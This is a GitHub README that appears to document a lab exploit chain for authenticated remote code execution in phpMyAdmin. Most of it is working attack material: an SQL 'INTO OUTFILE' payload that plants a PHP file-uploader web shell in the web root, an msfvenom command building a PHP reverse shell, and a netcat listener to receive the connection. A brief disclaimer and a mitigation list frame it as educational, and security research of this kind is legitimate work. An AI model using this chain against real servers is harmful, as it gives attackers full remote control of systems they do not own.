 # Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   ![SQL Injection](./screenshots/sql_query.png)

2. **Accessing Uploader via Browser**  
   ![Uploader Interface](./screenshots/upload.png)

3. **Creating a payload**
    ![Payload](./screenshots/payload.png)

4. **Uploading rev_shell.php**  
   ![Shell Upload](./screenshots/rev_shell_upload.png)

5. **Shell Triggered and Connection Received**  
   ![Reverse Shell](./screenshots/trigger.png)
   ![Reverse Shell](./screenshots/reverse_shell.png)

> 💡 If you prefer not to push images, you can embed them using GitHub Issues or external URLs.

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  
- [CyberChef](https://gchq.github.io/CyberChef/)  
- [msfvenom Payloads](https://docs.rapid7.com/metasploit/php-payloads/)

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/@sakshi.infosec)

